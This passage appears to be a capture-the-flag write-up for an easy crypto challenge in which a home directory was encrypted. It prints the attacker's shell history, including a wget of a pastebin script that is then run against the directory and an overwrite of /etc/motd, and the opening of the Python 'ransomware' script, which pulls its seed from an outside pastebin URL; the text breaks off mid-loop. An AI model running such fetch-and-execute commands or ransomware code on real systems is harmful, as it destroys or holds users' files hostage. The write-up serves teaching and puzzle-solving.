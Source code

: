 # unm0unt41n

[library.m0unt41n.ch/challenges/unm0unt41n](https://library.m0unt41n.ch/challenges/unm0unt41n) ![](../../resources/crypto.svg) ![](../../resources/easy.svg) 

# TL;DR

We get encrypted set of files, with only one preserved original example

# The inputs provided

We get:

*   `ECSC_2022_img_10.jpg` - the only original, decrypted file that we have
*   `home.zip`, which contains the encrypted home directory:
    *   `home/.bash_history`
    *   `home/shc/solves/solves_2001-06-04.txt`
    *   (...)
    *   `home/shc/solves/solves_1996-07-07.txt`
    *   `home/shc/home.html`
    *   `home/shc/imgs/SHC_Final_2022_img_00.jpg`
    *   `home/shc/imgs/SHC_Final_2022_img_37.jpg`
    *   `home/shc/imgs/ECSC_2022_img_10.jpg`
    *   `home/shc/imgs/SHC_Final_2022_img_04.jpg`
    *   `home/shc/imgs/SHC_Final_2022_img_09.jpg`
    *   `home/shc/imgs/SHC_Final_2022_img_30.jpg`
    *   `home/shc/imgs/SHC_Final_2022_img_08.jpg`

The `.bash_history`:

```bash
whoami
ls -la
pwd
lsb_release -a
sudo -l
wget https://pastebin.com/raw/hXqpyZQB
python3 hXqpyZQB shc/
echo -n "Haha you've been hacked!" > /etc/motd
```

We can still grab the "ransomware" script from pastebin:

```python
import random
import requests
import os
from pathlib import Path
from sys import argv

s = int(requests.get("https://pastebin.com/raw/jqZGy0nL").text)
random.seed(s)

if len(argv) != 2:
    print(f"usage: {argv[0]} ransomware_target")
    exit(1)

path = Path(argv[1])
for p in sorted(path.rglob("*")):
    if os.path.isfile(p):
```